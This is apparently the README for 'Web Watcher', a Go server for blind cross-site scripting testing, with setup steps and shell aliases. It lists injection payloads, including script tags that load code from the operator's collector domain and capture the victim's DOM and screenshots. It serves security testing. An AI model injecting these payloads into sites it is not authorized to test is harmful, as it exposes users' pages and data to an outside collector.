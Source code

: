 # Web Watcher  
Golang server for testing blind XSS.   
Special endpoint for testing requests and file extensions.  

## Setup  
1. Install  
```
git clone https://github.com/pichik/webwatcher
```
2. Build application
```
sudo go build -o /usr/local/bin/webwatcher webwatcher/main.go
```
3. Set permissions for ports 
```
sudo setcap CAP_NET_BIND_SERVICE+ep ~/go/bin/webwatcher
``` 
3. Fill `.wwconfig` and add it to your home directory.  
4. Move web directory to a place specified in config.  
5. Remove the rest.

All files in `assets/` are publicly accessible.  
If you are running https, directory with certificates should be generated.  

**!! Change domain in bait.js to your domain name !!**  

## Usage
Login to your website with /login?token=[token]  

After authentication, you can find all requests in `/results/all`.  
Left side is from  XSS requests.  
Right side is from custom path requests.  
![results](screenshots/results.png)  


### Collecting simple data from Collector path
This endpoint will contain response specified in `assets/extensions.json` file  
```
  "js": {
    "Extension": [".js", ".mjs"],
    "Content-Type": "application/javascript",
    "Payload": "alert(document.domain)"
  }
```   
Insert this payload to the website, alert will popup.  
`<script src=https://domain.com/pichik.js></script>`  
This endpoint use regex `pichik.*` so you can use `pichik-anything/after/counts.html`  

### Collecting data from blind XSS  
You can use any endpoint for testing blind XSS, but dont use your collector path for this, as it have priority, so no blind XSS payload will be send.  
Detailed report will be created, with DOM and Screenshot.  
These request will be sent to slack, if specified in config.  
`<script src=https://domain.com></script>`  
![blind xss](screenshots/blindxss.png)  


## Aliases
Useful linux aliases  
```
alias webstep='sudo mv ~/main /usr/local/bin/ww'
alias webstep2='sudo setcap CAP_NET_BIND_SERVICE+ep /usr/local/bin/ww'
alias wwinstal='webstep && webstep2; echo "Web watcher installed"'

alias wwstart='nohup ww >/dev/null 2>&1 & echo "Web watcher started"'
alias wwstop='pkill ww; echo "Web watcher stopped"'
alias wwrestart='wwstop;wwstart; echo "Web watcher restarted"'
alias wwdebug='tail -f ~/web/logs/debug.txt'
alias wwlog='tail -f ~/web/logs/requests.txt'
```
